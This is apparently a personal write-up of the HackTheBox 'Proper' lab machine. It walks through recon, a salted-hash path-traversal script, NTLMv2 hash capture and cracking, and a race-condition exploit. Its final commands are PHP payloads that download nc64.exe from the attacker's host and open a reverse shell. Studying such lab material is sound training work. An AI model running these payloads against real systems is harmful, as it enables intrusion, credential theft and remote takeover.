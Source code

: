 # Proper 
#HTB #CTF  
Rank : hard
IP : 10.10.10.231
OS : Windows

Setup 
```bash
echo "10.10.10.231 proper.htb" > /etc/hosts
```


# Recon

Fire up nmap 
```bash
nmap -sV -sC -v -P- -o nmapscan proper.htb
PORT   STATE SERVICE VERSION  
80/tcp open  http    Microsoft IIS httpd 10.0  
| http-methods:    
|   Supported Methods: OPTIONS TRACE GET HEAD POST  
|\_  Potentially risky methods: TRACE  
|\_http-server-header: Microsoft-IIS/10.0  
|\_http-title: OS Tidy Inc.  
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Lets go to the webpage. 

![[Pasted image 20210523122504.png]]

![[proper.pdf]]
Always start by looking at the source code of the page for any information 

As you see blow the id of these element looks very similar to usernames.
![[Pasted image 20210523123453.png]]

*User*
dustin
daksh
anna
wafer

And what appear to be hash id
![[Pasted image 20210523124404.png]]

hash = a1b30d31d344a5a4e41e8496ccbdd26b

Seems to be md5 hash. 

If you follow the link and remove the parameters to get to this source code 

![[Pasted image 20210523124645.png]]

Salt: hie0shah6ooNoim

What I see there two options salt\$hash or hash\$salt. 


While I was look at source code I started to do some enumeration on the site for looking for sites.  
### gobuster
#gobuster
```bash
└──╼ $ gobuster dir -u http://proper.htb -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt -t 50 -k  
\===============================================================  
Gobuster v3.1.0  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
\===============================================================  
\[+\] Url:                     http://proper.htb  
\[+\] Method:                  GET  
\[+\] Threads:                 50  
\[+\] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt  
\[+\] Negative Status codes:   404  
\[+\] User Agent:              gobuster/3.1.0  
\[+\] Timeout:                 10s  
\===============================================================  
2021/05/23 12:27:33 Starting gobuster in directory enumeration mode  
\===============================================================  
/assets               (Status: 301) \[Size: 148\] \[--> http://proper.htb/assets/\]  
/.                    (Status: 200) \[Size: 14257\]                                 
/Assets               (Status: 301) \[Size: 148\] \[--> http://proper.htb/Assets/\]  
/licenses             (Status: 301) \[Size: 150\] \[--> http://proper.htb/licenses/\]  
/LICENSES             (Status: 301) \[Size: 150\] \[--> http://proper.htb/LICENSES/\]  
/ASSETS               (Status: 301) \[Size: 148\] \[--> http://proper.htb/ASSETS/\]     
/Licenses             (Status: 301) \[Size: 150\] \[--> http://proper.htb/Licenses/\]  
```

Assets lead us to 403 page. 
Licenses give us a login page. 
![[Pasted image 20210523123159.png]]

creds: 
vikki.solomon@throwaway.mail / password1


read.sh
```bash
#!/bin/bash

HOST=proper.htb
SALT=hie0shah6ooNoim
TRAV=$1
USER=vikki.solomon@throwaway.mail 
PASS=password1
COOKIE=$(mktemp -u)
PROXY=127.0.0.1:8080

#login
curl -c $COOKIE -s -o /dev/nul http://$HOST/licenses/index.php
curl -s \
	 -b $COOKIE \
	 -o /dev/null \
	 -d "username=${USER}&password=${PASS}" \
	 http://$HOST/licenses/index.php
	 
# SMB
curl -s \
	 -b $COOKIE \
	 -G \
	 -d "theme=${TRAV}" \
	 -d "h=$(echo -n ${SALT}${TRAV} | md5sum | cut -d' ' -f1)" \
	 -o /dev/null \
	 http://$HOST/licenses/licenses.php
	 
	 
# clean up 
rm -rf $COOKIE

```


### smbserver 
#smbserver
```bash
sudo smbserver.py .ip 10.10.14.19 -smb2support  
Impacket v0.9.23.dev1+20210517.123049.a0612f00 - Copyright 2020 SecureAuth Corporation  
  
\[\*\] Config file parsed  
\[\*\] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0  
\[\*\] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0  
\[\*\] Config file parsed  
\[\*\] Config file parsed  
\[\*\] Config file parsed  
\[\*\] Incoming connection (10.10.10.231,51107)  
\[\*\] AUTHENTICATE\_MESSAGE (PROPER\\web,PROPER)  
\[\*\] User PROPER\\web authenticated successfully  
\[\*\] web::PROPER:aaaaaaaaaaaaaaaa:31c57ecad889ff706a19613a9ac43cf7:010100000000000080c0829ac94fd701917fc90872e5853c000000000100100076004100700047004800420052006400030010007600410070004700480042005200640  
002001000740076006d006800650071005300500004001000740076006d00680065007100530050000700080080c0829ac94fd7010600040002000000080030003000000000000000000000000020000031e4fa0b370783744895f0fb54460897ccef8ad6  
90cf42d360f3fd502db9edc90a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310039000000000000000000
```

Crack the hash using john 
```bash
sudo john hash --wordlist=/usr/share/wordlists/rockyou.txt  
Using default input encoding: UTF-8  
Loaded 1 password hash (netntlmv2, NTLMv2 C/R \[MD4 HMAC-MD5 32/64\])  
Will run 8 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
charlotte123!    (web)  
1g 0:00:00:05 DONE (2021-05-23 14:53) 0.1992g/s 197456p/s 197456c/s 197456C/s chrismmy..chaqueto  
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably  
Session completed
```
creds : web/charlotte123!

race condition scripts

```bash
#!/bin/bash
PAYLOAD=$1

while :; do
	echo hello world > header.inc
	echo "$PAYLOAD" > header.inc
done

```

```bash
./race.sh '<?php system("cmd /c powershell iwr http://10.10.14.19/nc64.exe -outf \windows\system32\spool\drivers\color\cute.exe"); ?>'

./race.sh '<?php system("cmd /c start \windows\system32\spool\drivers\color\cute.exe 10.10.14.19 1234 -e cmd.exe"); ?>'

```